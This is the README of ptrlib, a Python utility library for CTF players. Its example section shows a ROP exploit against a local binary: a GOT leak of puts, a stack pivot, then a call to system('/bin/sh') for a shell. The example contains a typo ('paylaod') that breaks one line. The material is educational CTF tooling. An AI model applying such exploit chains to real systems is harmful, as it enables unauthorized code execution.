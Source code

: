 ptrlib
====

![Python application](https://github.com/ptr-yudai/ptrlib/workflows/Python%20application/badge.svg)

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Why not pwntools?
Ptrlib is designed to be as library-independent as possible.
Also, ptrlib has some pros such as supporting Windows process.

## Requirements
Supports: Python 3.5 or later

Library Dependency:
- pycryptodome
- pywin32 (when handling Windows process)

External Program:
- When using `SSH` function:
  - ssh
  - expect
- When using `nasm` function:
  - nasm

## Usage
Basic examples are available at [/examples](https://github.com/ptr-yudai/ptrlib/tree/master/examples/).

Testcases under [/tests](https://github.com/ptr-yudai/ptrlib/tree/master/tests/) may also help you understand ptrlib.

## Quick Document
There are many functions in ptrlib.
In this section we try using it for a pwnable task.

You can run executable or create socket like this:
```python
sock = Process("./pwn01")
sock = Process(["./pwn01", "--debug"])
sock = Socket("localhost", 1234)
sock = SSH("example.com", 22, username="ubuntu", password="p4s$w0rd")
sock = SSH("example.com", 22, username="ubuntu", identity="./id_rsa")
```

If you have the target binary or libc, it's recommended to load them first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
This doesn't fully analyse the binary so that it runs fast.
Also, ELF class supports cache to reduce calculation.

You can use some useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is an example to craft ROP stager.
```python
"""
Connect to host
"""
# Host name supports CTF-style
sock = Socket("nc localhost 1234")
# You can show hexdump for received/sent data for debug
#sock.debug = True

"""
Write ROP chain
"""
addr_stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += flat([
  # puts(puts@got)
  next(elf.gadget("pop rdi; ret;")),
  elf.got("puts"),
  elf.plt("puts"),
  # gets(stage2)
  next(elf.gadget("pop rdi; ret;")),
  addr_stage2,
  elf.plt("gets"),
  # stack pivot
  next(elf.gadget("pop rbp; ret;")),
  addr_stage2,
  next(elf.gadget("leave\n ret")) # GCC-style
], map=p64)
sock.sendlineafter("Data: ", payload)

"""
Leak libc address
"""
# You don't need to fill 8 bytes for u64
leak = u64(sock.recvline())
# This will show warning if base address looks incorrect
libc.base = leak - libc.symbol("puts")

payload  = b'A' * 8
paylaod += p64(next(elf.gadget("ret")))
# Automatically rebase after <ELF>.base is set
payload += p64(next(libc.search("/bin/sh")))
payload += p64(libc.symbol("system"))

# Shows warning if payload contains a character `gets` cannot accept
is_gets_safe(payload) # is_[cin/fgets/gets/getline/scanf/stream]_safe

sock.sendline(payload)

sock.sh() # or sock.interactive()
```

## Install
Run `pip install ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)

## Contributor
Feel free to make a pull request / issue :)

- [theoremoon](https://github.com/theoremoon)
  - Added/fixed several cryptography functions
  - Added buffering of Socket/Process
  - Added status check (CI test)
- [keymoon](https://github.com/key-moon)
  - Added algorithm package
